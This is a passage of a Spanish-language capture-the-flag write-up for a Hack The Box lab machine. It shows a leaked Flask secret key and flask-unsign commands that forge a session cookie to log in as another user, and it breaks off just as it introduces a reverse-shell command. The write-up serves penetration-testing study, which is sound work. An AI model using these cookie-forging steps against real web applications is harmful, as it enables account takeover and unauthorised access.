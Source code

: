 Se trata de un proceso lento. Si por ejemplo, quisiéramos listar todo el */etc/passwd*, tardaríamos demasiado tiempo. 

Ejecutamos el *script* y, pasado un tiempo, deberíamos obtener la siguiente cadena:

![imagen 39](Pasted image 20230214151511.png)

`SECRET_KEY = 'f77dd59f50ba412fcfbd3e653f8f3f2ca97224dd53cf6304b4c86658a75d8f67'`

Parece que se trata del **secreto** de una *cookie*. 

### Forjando la cookie de jack

El **secreto de una cookie** (también conocido como *cookie secret* en inglés) es una cadena de caracteres aleatoria y secreta que se utiliza para firmar las *cookies* en una aplicación web. Disponiendo del **secreto**, podemos forjar una *cookie* con los datos que queramos.

Recapitulando un poco, recordemos que *jack* estaba corriendo un contenedor llamado *secrets*. Nos interesa ganar acceso como *jack*, ya que este contenedor puede contener **información interesante**.

Vamos a inspeccionar la *cookie* de *gary*. La herramienta que utilizaré será *flask-unsign*:

```bash
flask-unsign --decode --cookie "eyJ1c2VybmFtZSI6ImdhcnkifQ.Y-5Pww.MCPcJ4zOX2RtJHvQGAhkAl2t9hk"
{'username': 'gary'}
```

El contenido de la *cookie* es simplente el nombre de usuario.

Ahora vamos a forjar una *cookie* que nos permita **autenticarnos** como el usuario *jack*, empleando el **secreto** anterior:

```bash
flask-unsign --sign --cookie "{'username': 'jack'}" --secret "f77dd59f50ba412fcfbd3e653f8f3f2ca97224dd53cf6304b4c86658a75d8f67"
eyJ1c2VybmFtZSI6ImphY2sifQ.Y-5RCA.ZnfsnKZgbmmAMDx7C6U_O8_TGK0
```

Utilizaremos la cookie *eyJ1c2VybmFtZSI6ImphY2sifQ.Y-5RCA.ZnfsnKZgbmmAMDx7C6U_O8_TGK0* para ganar acceso a la *web* como *jack*.

Entrando en *My Containers*, tendremos acceso a *secrets*:

![imagen 40](Pasted image 20230216170033.png)

Vamos a ganar acceso al contenedor.

### Ganando acceso al contenedor secrets

Ya podemos cambiar el */etc/hosts* para que *dev.rainycloud.htb rainycloud.htb* apunten a la IP 10.10.11.184:

![imagen 41](Pasted image 20230216170528.png)

Tal como sucedió anteriormente, utilizaremos el siguiente **comando** para enviarnos una *reverse shell*:
